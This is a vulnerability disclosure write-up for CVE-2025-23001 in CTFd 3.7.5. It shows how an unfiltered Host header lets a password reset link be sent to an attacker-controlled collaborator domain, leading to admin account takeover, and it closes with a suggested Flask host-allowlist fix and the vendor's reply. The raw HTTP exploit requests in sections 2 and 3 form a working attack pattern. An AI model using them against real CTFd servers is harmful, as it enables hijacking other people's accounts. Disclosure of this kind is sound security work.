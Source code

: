 ```yaml
---
date: 2025-05-02 10:15:00
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

![CTFd Logo](https://codetoanbug.com/wp-content/uploads/2024/09/323716312_737679274373502_8768430654572008784_n.jpg)

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![Source Code Snippet 1](https://codetoanbug.com/wp-content/uploads/2025/01/image-8.png)

---

![Source Code Snippet2](https://codetoanbug.com/wp-content/uploads/2025/01/474813695_585846764257618_3528770934854834765_n-1024x507.jpg)

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.

![Reset Link Clicked](https://codetoanbug.com/wp-content/uploads/2025/01/474390321_579415605089692_484539837654316394_n-1024x254.jpg)

I obtained the admin’s email from Discord and sent a request to reset the password:

![Password Reset Form](https://codetoanbug.com/wp-content/uploads/2025/01/474380385_635935822228710_1744942101823595149_n-1024x576.jpg)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And I changed the collaborator domain in the Host header request. Then, I waited for the admin to click the reset link
and successfully hijacked the password reset process.

![Hijacked Password Reset](https://codetoanbug.com/wp-content/uploads/2025/01/475870028_1807425050089165_691369729352272252_n-1024x523.jpg)
![Admin Account Access](https://codetoanbug.com/wp-content/uploads/2025/01/475112839_481305765023487_5607908620398554236_n-1024x469.jpg)
![Screenshot from Dev](https://codetoanbug.com/wp-content/uploads/2025/01/474801751_977215701140368_2091945604793403445_n-949x1024.jpg)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t
understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a
screenshot of the email.

![Email Screenshot](https://codetoanbug.com/wp-content/uploads/2025/01/474526880_597855626328868_3119515180978439323_n-1024x529.jpg)

---

## 5. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

---

## 6. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according
to cybersecurity best practices, security should be **built by design and by default**. CTFd does not follow this
policy. MITRE accepted my submission based on this reasoning.

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)
